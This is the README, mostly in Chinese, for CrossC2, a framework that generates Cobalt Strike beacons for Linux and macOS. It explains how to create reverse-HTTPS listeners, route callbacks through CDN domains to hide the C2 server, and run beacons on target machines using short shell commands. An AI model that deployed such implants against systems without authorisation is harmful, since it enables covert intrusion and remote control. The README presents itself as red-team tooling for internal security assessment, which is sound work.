 # CrossC2 framework

[![ Linux ](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![ macOS ](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)
[![GitHub issues-closed](https://img.shields.io/github/issues-closed/gloxec/CrossC2.svg)](https://GitHub.com/gloxec/CrossC2/issues?q=is%3Aissue+is%3Aclosed)
[![Release](https://img.shields.io/github/release/gloxec/CrossC2.svg)](https://github.com/gloxec/CrossC2/releases/latest)
[![Downloads](https://img.shields.io/github/downloads/gloxec/CrossC2/total?label=Release%20Download)](https://github.com/gloxec/CrossC2/releases/latest)



<p align="center">
  <img alt="CrossC2 Logo" src="media/16292585578533/CrossC2_logo.png" height="30%" width="30%">
</p>


[README](README.md) | [中文文档](README_zh.md) | [README_FULL](README_full.md) | [中文完整文档](README_zh_full.md) 


# CobaltStrike 支持说明

支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，及包含Unix后渗透模块开发支持

|                 | CS3.14(bug fixes) | CS4.0 | CS4.X (>=4.1) |
|-----------------|----------|-------|---------------|
| Master分支        | ✅        |       |               |
| cs4.0分支         |          | ✅     |               |
| cs4.1分支         |          |       | ✅             |
|                 |          |       |               |
| Release 页面 <= v2.1 | ✅        |       |               |
| Release 页面 >= v2.2 |          |       | ✅             |

# Usage

> 1. 下载

下载**CrossC2.cna** **genCrossC2** **CrossC2Kit**, 修改`CrossC2.cna`配置

> 2. 创建listener与拷贝key

* 创建`windows/beacon_https/reverse_https` listener
* 拷贝**teamserver目录**的 `.cobaltstrike.beacon_keys`到**本地**

> 3. 功能扩展

* 添加`CrossC2Kit_Loader.cna`, 包含内存加载等其它功能
* `cs4.x`版本文件管理、进程列表功能缺失，必须使用此Loader来重启

> 4. 生成beacon

默认使用cli或cna提供的GUI功能生成beacon

* 当teamserver配置了c2profile时，需要提前生成rebind库供生成beacon时使用
* 当使用转发方式时, 除了指定rebind库外，生成时同样需要注意C2_HOST字段:
    * 服务商使用HTTP请求内容进行校验类型时，需指定CDN IP列表: `genCrossC2 1.1.1.1,2.2.2.2,3.3.3.3,xxx.xxx.xxx.xx ...`
    * 当CDN服务器通过SNI进行校验时，如Cloudflare等CDN运行商，需指定CDN绑定的域名: `genCrossC2 c2.domain.com ...`

rebind库相关介绍: 
* [📖wiki](https://gloxec.github.io/CrossC2/zh_cn/protocol/)
* Demo: 
    * C2Profile demo [📄demo_c2profile.profile](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/https.profile) [📄demo_c2profil_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/c2profile.c) 
    * UDP通信 demo [📄demo_udp_proxy_server.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/proxy_udp.py) [📄demo_udp_rebind.c](https://github.com/gloxec/CrossC2/blob/cs4.1/protocol_demo/rebind_udp.c)
* Issues: [🏷issue #65 (数据传递与c2profile字段对应示例)](https://github.com/gloxec/CrossC2/issues/65)、[🏷issue #89 (数据处理示例)](https://github.com/gloxec/CrossC2/issues/89#issuecomment-861194022)

> 5. 运行beacon

* 在目标上运行CrossC2插件生成的一键上线脚本
* 上传beacon至目标机器后进行赋权运行
* 为beacon设定工作目录并运行: `export CCPATH=/opt/ && /tmp/c2`
* 为beacon临时指定协议库并运行: `/tmp/c2 /tmp/c2-rebind.so`
* 为beacon临时设定C2配置: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`
* 设定DEBUG查看beacon上线状态: `export CCDEBUG=1 && /tmp/c2`

# 提示

`仅做企业、组织内部自身使用，本框架具有一定脆弱性，非专业人员请勿使用，以及禁止用于非法用途及盈利等，否则造成经济损失等问题自行承担并追究其相关责任!`

# todo

1. http-proxy (auth) & socks 代理回连支持
5. node beacon? (单个节点式，可进行不依靠teamserver托管其他beacon)
6. Linux & MacOS 端so/dylib的上线支持、及其衍生的进程注入等功能

# 感谢

感谢 **@Emma** 为CrossC2设计的Logo, 沿用 **Armitage** 、**CobaltStrike** 系列风格进行设计